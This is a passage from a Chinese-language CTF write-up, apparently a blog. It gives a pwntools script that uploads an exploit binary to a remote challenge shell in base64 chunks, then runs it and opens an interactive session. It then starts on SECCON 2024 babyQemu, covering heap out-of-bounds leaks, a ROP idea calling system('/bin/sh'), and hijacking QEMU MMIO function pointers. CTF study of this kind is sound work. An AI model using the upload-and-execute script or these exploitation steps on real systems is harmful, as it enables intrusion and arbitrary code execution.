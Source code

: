 ### 远程
打远程需要把我们的二进制程序传上去，这里是魔改了 [夏源姐的脚本](https://blingblingxuanxuan.github.io/2023/02/06/230206-rwctf2023-digging-into-kernel-3/#%E4%B8%8A%E4%BC%A0%E8%84%9A%E6%9C%AC)

```py
from pwn import *

ch = b'/ # '	# 根据题目情况更改

# io = remote("192.168.1.207",10023)
# io.sendlineafter(b"buildroot login: ",b"root")
# io.sendlineafter(ch,b"ls")

io = remote("127.0.0.1",5555)

def upload(lname, rname):
    print("[*] uploading %s ..." % lname)
    payload = b64e(open(lname,'rb').read())
    a = len(payload) // 500
    for i in range(a + 1):
        print("[+] %d/%d" % (i,a))
        s = 'echo "' + payload[i*(500):(i+1)*500] + '" >> %s.b64' % rname
        io.sendlineafter(ch,s.encode('utf-8'))
    cmd = 'cat %s.b64 | base64 -d > %s' % (rname,rname)
    io.sendlineafter(ch,cmd.encode('utf-8'))

context.log_level = 'debug'
io.sendline("ls")    
upload("./exp","/tmp/test")
io.sendlineafter(ch,b"chmod +x /tmp/test")
io.sendlineafter(ch,b"/tmp/test")
io.interactive()

```

## babyQemu - SECCON 2024 Quals
发现和一些 kernel 题的思路类似，还是需要打堆上函数指针...   
### 思路
给了堆上任意地址读写（可以从 heap buffer 往前往后任意 oob 读写）     
所以可以很容易的 leak proc，libc，和heap    
然后就有一个任意地址读写，我一开始的想法是 leak environ，然后覆盖返回地址为 `pop rdi,ret;binshell address; system` ，但是很难保证连续覆盖的过程中，在上层函数调用时不会破坏已写入值     
看到源代码中有这个函数    
```c
static void pci_babydev_realize(PCIDevice *pci_dev, Error **errp) {
	PCIBabyDevState *ms = PCI_BABY_DEV(pci_dev);
	uint8_t *pci_conf;

	debug_printf("called\n");
	pci_conf = pci_dev->config;
	pci_conf[PCI_INTERRUPT_PIN] = 0;

	ms->reg_mmio = g_malloc(sizeof(struct PCIBabyDevReg));

	memory_region_init_io(&ms->mmio, OBJECT(ms), &pci_babydev_mmio_ops, ms, TYPE_PCI_BABY_DEV"-mmio", sizeof(struct PCIBabyDevReg));
	pci_register_bar(pci_dev, 0, PCI_BASE_ADDRESS_SPACE_MEMORY | PCI_BASE_ADDRESS_MEM_TYPE_64, &ms->mmio);
}
```
这个 pci_babydev_mmio_ops 是有我们的 mmio_read，mmio_write 函数指针，然后挂了一个 gdb，用 search 命令可以看到我们的 opaque 里面有一个字段是位于 proc data.rel.ro 段（不可写）的这个结构体，所以我们猜测调到这些 mmio_read 和 mmio_write 都是通过 找 opaque -> 找 opaque 里面的 pci_babydev_mmio_ops 结构体 -> 找 pci_babydev_mmio_ops 的 read/write 函数   